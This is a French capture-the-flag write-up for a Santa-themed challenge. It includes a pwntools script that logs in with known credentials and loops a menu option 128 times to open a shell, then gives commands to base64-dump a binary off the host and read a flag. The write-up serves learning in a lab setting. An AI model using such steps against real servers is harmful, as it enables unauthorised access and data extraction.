

# HAPPY_NEW_YEAR_2
On se connecte en tant que kks_santa, et on nous propose de boire une biere :
```
Hi, this is secret Santa 🎅
You can send a gift to a stranger and make him a pleasant surprise for the new year 🎊.

====================
[1] Sign up
[2] Sign in
[3] Exit

Option> 2
Enter username: kks_santa
Enter password: year2020
Logged in!

====================
kks{h1_54n74_wh47_4r3_y0ur_fur7h3r_1n57ruc710n5}
Santa Menu🎅
[1] Show all messages
[2] Inbox 
[3] Send message
[4] Relax

Option> 4
```
En regardant le binaire on a une string : `str.You_are_really_kks_santa ; 0x4638 ; "\nYou are really kks santa!\n"`
alors on va essayer de la faire apparaitre....pour cela il suffit de boire exactement 128 bières et de taper en option `1kks_santa`
comme c'est long 128 on va faire un script :
```python

from pwn import *
import time

conn = remote('tasks.kksctf.ru', 30040)

print(conn.recvuntil('Option> ').decode())
conn.send(b'2\n')
print(conn.recv(1024))
conn.send(b'kks_santa\n')
print(conn.recv(1024))
conn.send(b'year2020\n')

for i in range(128):
    received = conn.recvuntil('Option> ').decode()
    drunk = received.splitlines()
    drunk = [ drunk[i+1] for i,elt in enumerate(drunk) if 'Already drunk' in elt and drunk[i+1][0] != '\x1b']
    if drunk:
        print(drunk)
    #time.sleep(0.1)
    conn.send('4/n')
    conn.recv(1024)

conn.send(b'1kks_santa\n')
conn.interactive()
```
Quand on l'exécute on obtient un shell dégueulasse :
```
[+] Opening connection to tasks.kksctf.ru on port 30040: Done
Hi, this is secret Santa 🎅
You can send a gift to a stranger and make him a pleasant surprise for the new year 🎊.

====================
[1] Sign up
[2] Sign in
[3] Exit

Option> 
b'\x1b[0m'
b'Enter username: \x00'
["This is just the beginning, isn't it 😉?"]
['Is the holiday knocking on our door🎊?']
["Sure enough, he's already at the door🎉"]
["Oh yeah, do you smell that tangerine smell on new year's eve🍊"]
["Isn't it time to end the holiday, my friend😳?"]
[*] Switching to interactive mode

====================
Relax and have a beer🍻?
Yes    Yes
Already drunk: 128!🍺
Dude, you're a real beast, I can tell you were preparing for the New year!🤯🤯🤯🤯
\x00[31m
====================
kks{h1_54n74_wh47_4r3_y0ur_fur7h3r_1n57ruc710n5}
Santa Menu🎅
[1] Show all messages
[2] Inbox 
[3] Send message
[4] Relax

Option> 
====================
kks{h1_54n74_wh47_4r3_y0ur_fur7h3r_1n57ruc710n5}
Santa Menu🎅
[1] Show all messages
[2] Inbox 
[3] Send message
[4] Relax

Option> Spying on others isn't good⛔, even though you're kks Santa🕵️

====================
kks{h1_54n74_wh47_4r3_y0ur_fur7h3r_1n57ruc710n5}
Santa Menu🎅
[1] Show all messages
[2] Inbox 
[3] Send message
[4] Relax

Option> 
You are really kks santa!
\x00 \x00 \x00$ id
uid=1000(santa) gid=1000(santa) groups=1000(santa)
$ \x00$  
```
on se balade dans la machine on a rien le droit de faire mais on trouve quand même un binaire dans **/home/santa/secret**
quand on l'exécute on a le droit à : `This incident will be sent to the main Santa. I'll say you've been bad this year.`
maintenant la partie chiante il faut le rappatrier pour l'analyser en sachant qu'on ne peut meme pas faire de cd
```base64 /home/santa/secret```
on copie en local puis :
``` echo '......' | tr -d '\n' | base64 -d > secret```
on l'analyse avec radare et il n'y a que la fonction main :

Bon ba c'est tout simple il suffit de setter une variable d'env :
```
$ SECRET_TOKEN_ENV="4lm057_d0n3" /home/santa/secret
kks{w0w_y0u_4r3_7h3_r007_s4n74_6u7_did_y0u_74k3_411_7h3_pr353n75}
```
et on a le flag 🙂
flag : `kks{w0w_y0u_4r3_7h3_r007_s4n74_6u7_did_y0u_74k3_411_7h3_pr353n75}`
GG ! Enfin un qui ne fait pas partie de ceux qui ne sont rien
<:macron:784920050544017429>
